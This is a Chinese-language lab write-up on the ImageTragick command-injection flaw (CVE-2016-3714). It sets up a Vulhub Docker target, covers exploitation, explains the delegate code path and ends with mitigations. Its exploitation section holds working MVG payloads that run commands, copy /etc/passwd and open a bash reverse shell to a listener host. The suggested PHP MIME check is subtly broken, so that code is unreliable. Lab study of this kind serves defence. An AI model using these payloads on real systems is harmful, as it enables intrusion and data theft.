


# Imagetragick 命令执行漏洞（CVE-2016–3714）

## 一.靶场环境构建

#### 1.使用 Vulhub 一键搭建漏洞测试靶场

- 安装Docker，docker-compose

```
sudo apt-get update && apt-getinstall docker.io
sudo curl -L https://github.com/docker/compose/releases/download/1.18.0/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose

```
- 启动Docker服务

```
sudo service docker start
```
- 拉取vulhub

```
git clone https://github.com/vulhub/vulhub.git 
```
- 自动化编译docker环境

```
docker-compose up -d
```
#### 2.环境完成测试


- 本地web服务器访问：已可访问服务器下的已有页面


- upload.php:将上传的文件传入PHP的imagick扩展，触发漏洞

## 二.漏洞利用实战

**1. docker容器内使用imagemagick convert转换命令，触发漏洞：**

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0"|ls -l")'
pop graphic-context
```
-  嵌入命令执行成功




**2. 本机内测试已有的简单poc:vul.jpg**

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`cat /etc/passwd > /tmp/success`'
pop graphic-context
```
- 复制/etc/passwd文件到tmp目录。访问demo.php后，在docker容器中查看temp目录，成功获得success文件


**3. 建立TCP连接，反弹shell：**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|/bin/bash -i >& /dev/tcp/172.17.0.1/8889 0>&1")'
pop graphic-context

```
- 测试前，为了兼容性，先把靶机shell解释器改为bash：

```
sudo docker-compose exec apache rm -rf /bin/sh
sudo docker-compose exec apache ln -s /bin/bash /bin/sh
```
- 本机nc命令监听TCP 8889端口，成功反弹shell，可看到容器内安装的imagemagick版本是特定的漏洞版本


## 三.漏洞原理分析

- ImageMagick最开始使用ReadImage函数解析图片，此时所谓的图片完全可以是处理过的参数字符串，（ImageMagick默认支持一种图片格式mvg，以文本形式写入矢量图的内容）当图片地址以https://开头时，就会执行后续的委托行动。最后调用ExternalDelegateCommand传入了系统的system函数执行命令。

- 完整的解析执行过程：

```
ConvertMain() -> MagickCommandGenesis()-> ConvertImageCommand() 

-> ReadImages() -> ReadImage() ->ReadMVGImage() -> DrawImage() ->ReadImage() 

-> InvokeDelegate() -> system()
```
 
- CVE-2016–3714即是利用了ImageMagick传递委托命令时的文件名过滤不足的漏洞。委托的本质是调用外部的lib来处理文件。委托定义在ImageMagick的默认配置文件：delegates.xml里，其中支持HTTPS图片的一条：
```
 <delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/>
```
- 解析https图片的时候，文件有`fill`字段代表需要填充外部的图片进当前的图片，curl指用curl命令将外部图片下载后填充。重点是最后的url部分：‘https:%M’，由于参数过滤不足，（基本没有过滤）就可以进行shell命令注入。只需使用反引号（`）或闭合双引号拼接命令行，传入了系统的system函数，就可执行任意命令。

[参考来源：https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html](https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html)

[https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd](https://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd)

## 四.漏洞影响分析

**漏洞的 CVSS 评分分析**


## 五.漏洞缓解

**检测并阻止「漏洞利用」行为**


## 六.漏洞修补

**1. 在上传图片时需要通过文件内容来判断用户上传的是否为真实图片类型。**

- 处理图片前，是图片头，如果图片头不是你想要的格式，那么就不调用ImageMagick处理图片。php使用Fileinfo 获取文件MIME类型，更改web站点uplaod.php页面代码：

- 原码仅仅检测了后缀名，导致伪装格式图片上传


- 改为
```
$finfo    = finfo_open(FILEINFO_MIME);
$mimetype = finfo_file($finfo, $_FILES);
if (!in_array($mimetype, ['gif', 'png', 'jpg', 'jpeg'])) {
    die('Unsupported filetype uploaded.');
}
```
- 测试。检测出上传图片格式出错


**2. 在delegates.xml中删除对HTTPS方式的支持**

- 更改<delegate decode="https" command="&quot;curl&quot; -s -k -L -o &quot;%o&quot; &quot;https:%M&quot;"/> 的"M"

- 容器本地convert测试。命令解析出错


- 外部宿主机web访问upload.php上传图片，漏洞仍能触发，此处存在疑问，php使用的是imagick扩展API，调用Imagick类的构造。此处仍能触发漏洞，说明PHP imagick扩展与imagemagick独立？

**3. 使用策略配置文件来禁止解析https等敏感操作**
- 进入容器内部 
```
sudo docker-compose exec apache bash
```

- 在policy.xml（位于/usr/local/etc/ImageMagick-6）最后一行进行增加下列配置:

```
<policymap>
<policy domain="coder" rights="none" pattern="EPHEMERAL" />
<policy domain="coder" rights="none" pattern="URL" />
<policy domain="coder" rights="none" pattern="HTTPS" />
<policy domain="coder" rights="none" pattern="MVG" />
<policy domain="coder" rights="none" pattern="MSL" />
</policymap> 
```
- 再次尝试触发漏洞：容器本地convert测试，漏洞没有触发
 


- 外部宿主机wed访问upload.php上传图片，漏洞仍能触发，同上存在同样的

[参考来源：https://access.redhat.com/security/vulnerabilities/ImageTragick](https://access.redhat.com/security/vulnerabilities/ImageTragick)

[https://imagetragick.com/](https://imagetragick.com/)
